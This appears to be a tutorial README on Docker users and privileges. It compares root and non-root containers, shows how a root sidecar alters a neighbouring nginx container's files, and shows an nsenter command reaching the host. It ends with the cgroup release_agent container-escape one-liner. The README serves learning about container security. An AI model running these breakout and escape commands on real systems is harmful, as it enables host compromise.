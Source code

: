 # ROOT USER

Demonstrate root user and privilege inside the container.  

TODO:

* try and nsenter into the host
* try and list all the host processes from inside the container.

REF: [13_users_and_permissions/README.md](../13_users_and_permissions/README.md)  
REF: [chrisguest75/sysadmin_examples/10_file_permissions/README.md](https://github.com/chrisguest75/sysadmin_examples/blob/master/10_file_permissions/README.md)

## 📋 Script to follow

Demonstrate internal users and privilege  

### Build the image (root and user)

```sh
# build root
docker build --no-cache -t roottest -f root.Dockerfile .
# build myuser
docker build --no-cache -t usertest -f user.Dockerfile .
```

### Run as privileged (root)

```sh
# roottest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as privileged (user)

```sh
# usertest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# even though privileged we can't 'cat timer_list'
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as non-privileged and inspect (root)

```sh
# roottest
docker run -it --rm --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# should see in output
"MaskedPaths": [
    "/proc/asound",
    "/proc/acpi",
    "/proc/kcore",
    "/proc/keys",
    "/proc/latency_stats",
    "/proc/timer_list",
    "/proc/timer_stats",
    "/proc/sched_debug",
    "/proc/scsi",
    "/sys/firmware"
],
"ReadonlyPaths": [
    "/proc/bus",
    "/proc/fs",
    "/proc/irq",
    "/proc/sys",
    "/proc/sysrq-trigger"
]
```

### Run as non-privileged and inspect (myuser)

```sh
# usertest
docker run -it --rm --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

```

## Modify another container using sidecar rootuser

Start an nginx container

```sh
# start nginx
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/

# open unprivileged non-root user sidecar
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" usertest
# Change the nginx static file (permission denied)
cat /proc/1/root/etc/nginx/nginx.conf

# open unprivileged root user sidecar (allows us to edit files)
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" roottest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

## Modify another container using privileged rootuser

```sh
# open privileged sidecar
docker run -it --rm --privileged --entrypoint "/bin/bash" roottest

# try and nsenter into the host
# try and list all the containers from inside.
```

## Get onto the docker desktop alpine host

```sh
# nsenter into the host docker alpine 
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Changing and reloading config  

```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Escape the container

This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  

```sh
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
